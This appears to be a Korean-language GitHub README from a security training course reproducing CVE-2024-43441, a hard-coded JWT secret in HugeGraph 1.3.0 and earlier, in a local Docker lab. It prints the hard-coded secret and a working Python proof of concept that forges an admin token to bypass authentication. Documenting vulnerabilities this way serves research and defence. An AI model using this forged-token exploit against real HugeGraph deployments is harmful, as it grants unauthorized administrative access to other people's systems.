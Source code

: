 # CVE-2024-43441 | HugeGraph JWT Secret Hard‑Coded

> 화이트햇 스쿨 3기 - [송은우 (@le0s1mba)](https://github.com/le0s1mba)

<br/>

### 요약

HugeGraph 1.3.0 이하 버전에서는 JWT Secret 키가 코드에 하드코딩되어 있어, 해당 키로 임의의 토큰을 발급 받아 인증 과정을 우회할 수 있다.

<br/>

### PoC

```
import jwt

token = jwt.encode(
    {
        "user_name" : "admin",
        "user_id" : "-30:admin",
        "exp" : 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)

print(f"JWT token : {token}")
```

먼저 run.py를 실행시켜 admin 계정의 jwt 토큰을 발급 받고, 해당 토큰을 헤더에 넣어 인증을 우회한다.

### 환경 구성 및 실행

```docker compose up -d``` 명령어로 환경을 먼저 실행시킨다.

### 결과

**인증 안함**

```curl -i http://127.0.0.1:8080/graphs```


